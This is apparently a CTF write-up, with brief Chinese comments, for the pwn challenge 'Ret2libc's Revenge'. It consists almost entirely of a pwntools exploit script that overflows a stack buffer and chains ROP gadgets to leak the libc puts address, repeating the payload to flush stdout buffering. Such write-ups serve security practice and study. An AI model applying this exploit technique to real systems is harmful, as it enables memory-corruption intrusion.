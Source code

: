 # Ret2libc's Revenge

ret2libc的题目，但开启了setvbuf(stdout, 0, 0, 0)导致需要将输出缓冲区填满才能有输出

Exp:

```Python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')
ip, port = "8.147.132.32:18505".split(":")
elf_path = './ret2libc'
local = False
debug = False
debugger = '''
    b main
    b *0x401261
'''
if local:
    p = process(elf_path)
    if debug:
        gdb.attach(p, debugger)
else:
    p = remote(ip, port)

# p.sendline()
elf = ELF(elf_path)
libc = ELF('./libc.so.6')
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
mov_rsi_rdi = 0x401180
add_rsi_qptr_rbp_20 = 0x4010e9
and_rsi = 0x4010e4
mov_eax_0_pop_rbp_ret = 0x4011f8
leave_ret = 0x401279
ret = 0x4010a0

# payload = b'a' * (0x218) + p64(0x1f00000218) + b'b' * (0x6)
# 由于他是先将gets到的数据存在heap里再一位一位读入栈中，在rbp前面是存放下标的位置需要注意不能乱覆盖，
# 需要控制使其继续向下覆盖
payload = p64(0x0).ljust(0x218, b'a') + b'\x18\x02\x00\x00\x1f\x00'
payload += p64(0x400600 - 0x20) # 0x400600存有puts函数的plt的地址，将其赋给rsi然后给rdi
payload += p64(and_rsi)
payload += p64(add_rsi_qptr_rbp_20)
payload += p64(mov_rsi_rdi)
payload += p64(puts_plt)
payload += p64(0x4011ff)
p.sendline(payload)

# 填充输出缓冲区，这里将rdi的值换为puts的实际地址可以一次性输出多一些
for i in range(150):
    payload = p64(0x0).ljust(0x218, b'a') + b'\x18\x02\x00\x00\x1f\x00'
    payload += p64(0x404018 - 0x20)
    payload += p64(and_rsi)
    payload += p64(add_rsi_qptr_rbp_20)
    payload += p64(mov_rsi_rdi)
    payload += p64(puts_plt)
    payload += p64(0x4011ff)
    p.sendline(payload)
    sleep(0.05)
    print(i)

p.recvuntil(b'Revenge\n')
```